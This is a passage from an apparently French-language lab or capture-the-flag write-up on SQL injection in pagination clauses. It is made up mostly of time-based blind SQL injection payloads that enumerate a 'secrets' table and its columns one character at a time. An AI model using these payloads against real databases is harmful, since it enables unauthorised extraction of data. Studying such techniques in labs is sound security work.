 ```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 1),3,1))=ORD('c'),0,5))))a)
```

Le nom de la seconde table est "secrets".

Récupération du nombre de colonnes de la table "secrets" :&#x20;

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets'),1,1))=ORD('3'),0,5))))a)
```

La table "secrets" possède trois colonnes.

Récupération des noms des colonnes :

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 0),1,1))=ORD('i'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 0),2,1))=ORD('d'),0,5))))a)
```

La première colonne se nomme "id".

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 1),1,1))=ORD('u'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 1),2,1))=ORD('s'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 1),3,1))=ORD('e'),0,5))))a)
```

La seconde colonne se nomme "username".

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 2),1,1))=ORD('s'),0,5))))a)
```

```sql
lastname AND (SELECT 1 FROM (SELECT (SLEEP(IF(ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 2),2,1))=ORD('e'),0,5))))a)
```
